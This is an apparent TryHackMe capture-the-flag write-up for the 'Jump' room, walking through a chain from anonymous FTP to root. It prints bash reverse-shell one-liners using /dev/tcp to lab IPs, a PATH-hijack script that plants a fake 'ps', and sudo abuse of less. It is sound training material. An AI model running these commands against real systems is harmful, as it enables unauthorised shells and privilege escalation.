# THM Jump Writeup

Privilege escalation



as usual, i did an nmap scan and found 2 ports open. 1 ftp, 1 ssh


did a deeper scan on port 21 and found that anonymous login is allowed


logged in


looked at the directory listing and found 2 interesting dir


lets go to 'incoming' first

nothing interesting

lets go to 'pub'

read README .txt

it tells us what we need to do

before doing as told, let's check out archive and uploads
nothing interesting was there. 

let's do as told in the README.txt file
hint from thm : Add the code #!/bin/bash bash -i >& /dev/tcp/10.82.70.250/5555 0>&1 in a file test.sh and place it in the incoming folder. 10.82.70.250 is the AB IP

just make sure to change your ip


my listener connected, then i just read the file


next clue for dev_user is 

so we need to edit the backup script into a reverse shell

checking /opt/dev/backup.sh

shows that we can edit it

run our reverse shell


our listener was sucssesful so now we just need to grab the flag


hint for next flag is 


so we can create our own malicious ps in /opt/dev/bin

```bash!
mkdir -p /opt/dev/bin
echo '#!/bin/bash
bash -i >& /dev/tcp/10.82.84.138/5557 0>&1' > /opt/dev/bin/ps
chmod +x /opt/dev/bin/ps
```

got in


got the flag


for the next flag which is ops_user's flag, i first tried going to the dir but was denied


i did sudo -l (something you should always do when doing privilege escalation)

it shows that i can execulte deploy.sh as ops_user without a pass

looking at the script gave me this


checking the permission shows that we cant edit the script


let's check deploy_helper.sh


we can modify deploy_helper.sh and create a reverse shell
dont forget to rewrite permission and run with sudo as user ops_user

we are now ops_user

now lets go to the dir that we couldnt go to previously


lastly, we have to gain root access
hint : 


checking /usr/bin/less


doing ``` sudo -l ``` also confirms the hint given


tried running
```bash!
sudo /usr/bin/less /etc/passwd
```
to get inside the less viewer (where you're looking at the /etc/passwd contents)

after awhile i went to GTFOBins for less comands and found
```bash!
sudo -u root less /PATHTOFILE
```

running it got me the last flag


Overall Chain : 
FTP
 ↓
incoming/test.sh → reverse shell
 ↓
recon_user
 ↓
writable /opt/dev/backup.sh → reverse shell
 ↓
PATH hijacking via ps
 ↓
monitor_user
 ↓
writable deploy_helper.sh → ops_user
 ↓
sudo less as root
 ↓
/root/flag.txt

Lesson : 
- always run sudo -l for clues
- 
